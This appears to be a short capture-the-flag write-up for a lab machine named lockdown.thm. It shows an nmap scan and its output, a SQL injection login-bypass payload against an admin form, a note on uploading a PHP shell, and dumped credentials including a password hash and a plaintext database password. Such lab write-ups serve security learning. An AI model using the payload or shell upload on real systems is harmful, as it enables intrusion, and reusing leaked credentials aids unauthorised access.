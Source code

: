 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx lockdown.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV lockdown.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# HTTP (port 80)
Sql injection in admin form 
```
admin' OR 1=1;#
```


in system info we can change the image displayed to users and upload a php shell


array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
private $host = 'localhost';
    private $username = 'cts';
    private $password = 'YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE';
    private $database = 'cts_db';
